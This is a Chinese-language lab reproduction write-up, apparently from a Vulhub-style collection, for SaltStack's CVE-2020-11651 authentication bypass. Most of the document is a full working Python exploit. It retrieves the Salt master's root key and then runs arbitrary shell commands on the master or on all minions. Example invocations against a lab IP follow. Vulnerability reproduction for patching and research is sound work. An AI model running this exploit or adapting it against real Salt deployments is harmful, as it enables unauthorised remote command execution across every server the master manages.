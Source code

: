 # SaltStack 水平权限绕过漏洞 CVE-2020-11651

## 漏洞描述

SaltStack 是基于 Python 开发的一套C/S架构配置管理工具。国外某安全团队披露了 SaltStack 存在认证绕过漏洞（CVE-2020-11651）和目录遍历漏洞（CVE-2020-11652）。

在 CVE-2020-11651 认证绕过漏洞中，攻击者通过构造恶意请求，可以绕过 Salt Master 的验证逻辑，调用相关未授权函数功能，从而可以造成远程命令执行漏洞。

参考链接：

- https://labs.f-secure.com/advisories/saltstack-authorization-bypass
- https://github.com/rossengeorgiev/salt-security-backports
- https://github.com/saltstack/salt/blob/a67d76b15615983d467ed81371b38b4a17e4f3b7/tests/integration/master/test_clear_funcs.py

## 环境搭建

Vulhub执行如下命令启动一个SaltStack Master服务：

```
docker-compose up -d
```

环境启动后，将会在本地监听如下端口：

- 4505/4506 这是SaltStack Master与minions通信的端口
- 8000 这是Salt的API端口
- 2222 这是容器内部的SSH服务器监听的端口

## 漏洞复现

本文档复现CVE-2020-11651漏洞。

我们可以使用如下请求来执行`salt/master.py`中的`ClearFuncs:_prep_auth_info`方法：

```
{'cmd': '_prep_auth_info'}
```

利用这个方法，可以获得目标的所有用户的key，利用这个key即可通过超级管理员权限执行一些后台功能，比如下发任务等。

使用[这个POC](https://github.com/dozernz/cve-2020-11651)，首先获取Key，再在master中执行`touch /tmp/success`：

```python
#!/usr/bin/env python3

# POC for exploiting CVE-2020-11651. CVE-2020-11652 not included, but this one is the really powerful one and it should be easy enough to figure out how to get 11652 working if you need.
# Author: @dozernz
# Some code adapted from https://github.com/rossengeorgiev/salt-security-backports
#
# Pre-requsities: pip3 install salt


import os
import sys

import salt
import salt.version
import salt.transport.client
import salt.exceptions
import datetime


def ping_master():
    print("Attempting to ping master at "+master_ip)
    try:
        msg = {"cmd":"ping"}
        response = clear_channel.send(msg, timeout=3)
        if response:
            return True
    except salt.exceptions.SaltReqTimeoutError:
        return False

    return False


def get_rootkey():
    try:
        response = clear_channel.send({'cmd':'_prep_auth_info'}, timeout=2)
        for i in response:
            if isinstance(i,dict) and len(i) == 1:
                rootkey = list(i.values())[0]
                print("Retrieved root key: " + rootkey)
                return rootkey

        return False
        
    except:
        return False


def send_command_to_minions(command):
    print("Sending command to all minions on master")
    jid = "{0:%Y%m%d%H%M%S%f}".format(datetime.datetime.utcnow())
    cmd = "/bin/sh -c '{0}'".format(command)

    msg = {'cmd':"_send_pub","fun":"cmd.run","arg":[cmd],"tgt":"*","ret":"","tgt_type":"glob","user":"root","jid":jid}

    try:
        response = clear_channel.send(msg,timeout=3)
        if response == None:
            return True
        else:
            return False
    except:
        return False



def master_shell(root_key,command):
    # This is achieved by using the stolen key to create a "runner" on the master node using the cmdmod module, then the cmd.exec_code function to run some python3 code that shells out.
    # There is a cmd.shell function but I wasn't able to get it to accept the "cmd" kwarg parameter for some reason.
    # It's also possible to use CVE-2020-11652 to get shell if the master instance is running as root by writing a crontab into a cron directory, or proably some other ways.
    # This way is nicer though, and doesn't need the master to be running as root .


    msg = {"key":root_key,
            "cmd":"runner",
            'fun': 'salt.cmd',
            "kwarg":{
                "fun":"cmd.exec_code",
                "lang":"python3",
                "code":"import subprocess;subprocess.call('{}',shell=True)".format(command)
                },
            'jid': '20200504042611133934',
            'user': 'sudo_user',
            '_stamp': '2020-05-04T04:26:13.609688'}

    try:
        response = clear_channel.send(msg,timeout=3)
        print("Got response for attempting master shell: "+str(response)+ ". Looks promising!")
        return True
    except:
        print("something failed")
        return False



if __name__=="__main__":
    if len(sys.argv) <= 2:
        print("Not enough args")
        print("Use like python3 cve-2020-11651.py <targetip> <master/minions/fetchkeyonly> <command>")
        sys.exit(1)
    
    
    target = sys.argv[1]
    master_minion_root = sys.argv[2]


    master_ip = target
    master_port = '4506'

    minion_config = {

    'transport': 'zeromq',
    'pki_dir': '/tmp',
    'id': 'root',
    'log_level': 'debug',
    'master_ip': master_ip,
    'master_port': master_port,
    'auth_timeout': 5,
    'auth_tries': 1,
    'master_uri': 'tcp://{0}:{1}'.format(master_ip, master_port)
    }

    clear_channel = salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')

    if not ping_master():
        print("Failed to ping the specified master server, exiting")
        sys.exit(1)


    if master_minion_root == "master" or master_minion_root == "minions":
        command = sys.argv[3]
        rootkey = get_rootkey()
        if not rootkey:
            print("Failed to fetch the root key from the instance. This MAY indicate that it is patched")
            sys.exit(1)
        else:
            if master_minion_root == "master":
                master_shell(rootkey,command)
            else:
                send_command_to_minions(command)

    elif master_minion_root == "fetchkeyonly":
        get_rootkey()

    else:
        print("Invalid usage")
```

获取key：

```
python CVE-2020-11651.py 192.168.174.128 fetchkeyonly
```

![image-20220228194719579](images/202202281947375.png)

执行命令`touch /tmp/awesome_poc`：

```
python CVE-2020-11651.py 192.168.174.128 master "touch /tmp/awesome_poc"
```

![image-20220228194733635](images/202202281947385.png)

成功执行命令`touch /tmp/awesome_poc`：

![image-20220228194524614](images/202202281945708.png)